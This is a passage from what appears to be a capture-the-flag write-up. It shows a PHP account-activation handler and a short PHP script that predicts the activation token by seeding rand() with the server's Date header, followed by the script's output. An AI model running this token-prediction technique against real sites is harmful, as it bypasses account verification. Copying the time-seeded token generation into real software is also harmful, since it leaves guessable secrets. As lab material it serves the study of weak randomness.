 ```php
                $res = pg_prepare($db_conn, "activate_account_query", 'UPDATE users SET is_activated=TRUE WHERE id=$1');
                $res = pg_execute($db_conn, "activate_account_query", array($row[0]));
                
                $alert = "Account activated!";
                $alert_type = "success";
            } else {
                $alert = 'Account already activated.';
            }
        } else {
            $alert = "Invalid activation code.";
        }
    } else {
        $alert = "Invalid activation code.";
    }
} else {
    $alert = "Missing activation code.";
}
```

There is an account query being made, and regex is used to detect the presence of a 32-character long code. For this, we can simply use the fact that when we register an account, there is a specific time on the system being used at that moment to generate our activation token in the database.

This is the HTTP response when we submit a new register request:

```http
HTTP/1.1 200 OK
Date: Wed, 11 Jan 2023 04:26:56 GMT
Server: Apache/2.4.54 (Debian)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 2409
Connection: close
Content-Type: text/html; charset=UTF-8
```

Notice that there's a specific time specified by the machine. Perhaps we can just use this time to generate our activation cookie and then head to `activate.php` which asks for a `code` parameter. So, we can first copy the code used to generate the `activation_code` parameter.

Then, we can change the usage of `time()` to `strtotime('Wed, 11 Jan 2023 04:41:37 GMT')`, which is the time I registered a new account. The end script and output looks like this:

```php
<?php
$chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";

srand(strtotime('Wed, 11 Jan 2023 04:41:37 GMT'));
//echo time();
echo "\n";
$activation_code = "";
for ($i = 0; $i < 32; $i++) {
    $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
}
echo $activation_code;


$ php code.php       
vmsQdLZ9v5aUqAiUalTmt5CYnIxqrvpF
```
